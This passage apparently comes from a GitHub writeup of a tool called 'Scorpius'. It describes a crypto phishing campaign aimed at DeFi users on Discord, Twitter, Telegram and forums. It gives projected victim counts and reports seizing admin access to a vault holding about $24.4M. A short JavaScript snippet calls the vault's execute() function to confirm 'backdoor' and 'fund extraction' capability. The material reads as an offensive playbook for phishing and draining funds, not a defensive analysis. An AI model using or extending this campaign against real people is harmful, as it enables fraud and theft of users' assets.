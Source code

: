 #### Step 3: Multi-Channel Deployment
**Scorpius Deployment Engine:**
```
🚀 SCORPIUS CAMPAIGN DEPLOYMENT
===============================
Phishing Site: campaign_sophisticated_1749157201563.html
Deployment Channels:
  ✅ DeFi Discord servers (15 target servers)
  ✅ Twitter DM campaigns (500 targeted accounts)  
  ✅ Crypto forum posts (8 high-traffic forums)
  ✅ Telegram group infiltration (12 whale groups)

Estimated Reach: 2,500 potential targets
Expected Success Rate: 18-22% (sophisticated user profile)
Projected Compromises: 450-550 victims
```

---

## Phase 4: Successful Administrative Access

### Admin Privilege Escalation
**Scorpius Exploitation Results:**
```
🎯 ADMINISTRATIVE ACCESS ACHIEVED
================================
Method: Social engineering via phishing campaign
Victim Profile: Sophisticated DeFi user ($500K+ portfolio)
Authorization Obtained: execute(address,bytes) function access
Timestamp: 2025-06-05 15:00:42 UTC

💰 IMMEDIATE FUND EXTRACTION:
ETH Extracted: 0.1709 ETH (initial test)
USDC Accessible: 23.6M USDC 
Total Value Controlled: $24.4M

🔑 ADMINISTRATIVE CAPABILITIES GAINED:
✅ Arbitrary contract call execution
✅ Complete fund drainage capability  
✅ Backdoor persistence maintained
✅ Real-time balance monitoring active
```

### Privilege Verification
**Scorpius Admin Verification:**
```javascript
// Scorpius automatically verified admin access
async function verifyAdminAccess() {
    const vault = await ethers.getContractAt("VaultContract", vaultAddress);
    
    // Test administrative function access
    const testPayload = "0x"; // Empty call for verification
    const result = await vault.execute(testAddress, testPayload);
    
    console.log("✅ Administrative access confirmed");
    console.log("✅ Backdoor function operational");
    console.log("✅ Fund extraction capability verified");
}
```

---